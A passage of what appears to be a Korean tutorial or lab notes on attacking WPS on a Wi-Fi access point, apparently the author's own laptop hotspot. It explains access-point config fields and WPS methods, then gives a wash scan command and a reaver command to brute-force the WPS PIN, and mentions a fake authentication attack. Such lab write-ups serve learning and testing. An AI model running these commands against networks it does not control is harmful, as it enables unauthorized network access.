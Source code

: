필요 x

> model_number

AP의 모델 번호

필요 x

> serial_number

AP의 시리얼 번호

필요 x

> device_type

AP의 장치 유형

이해가...

> os_version

AP가 실행중인 운영 체제의 버전

노트북 핫스팟인뎅..

> config_methods

WPS 연결 시 사용할 수 있는 인증 방법 지정

`label` : 라벨에 인쇄된 PIN을 사용한 방법</br>
`push_button` : WPS 버튼을 사용한 방법</br>
`keypad` : 키패드를 통해 PIN을 입력하는 방법

한번에 `config_methods=label push_button keypad`로 전부 사용도 가능하다

> eap_server

EAP(Extensible Authentication Protocol) 서버 기능을 활성화

`0` : EAP 서버 비활성화</br>
`1` : EAP 서버 활성화

#### 연결

그럼 이제 정말로 연결해보자

![Screenshot from 2024-08-29 00-46-50](https://github.com/user-attachments/assets/5b69188c-6051-48fb-86ca-13711e8a3420)

```
wash --interface [모니터 모드가 활성화된 무선 어뎁터]
```

잘 잡힌 것을 확인했고 

`Lck` : WPS의 잠김 상태 확인

이후 작업을 하기 전 먼저 `Fake Authenticate` 공격으로 네트워크와 결합한다

만 일단 그 전에 `reaver`를 이용하여 PIN을 통한 무차별 대입을 할 것이다

```bash
reaver --bssid [타겟 맥 주소] --channel [채널] --interface [무선 어뎁터] -vvv --no-associate
```
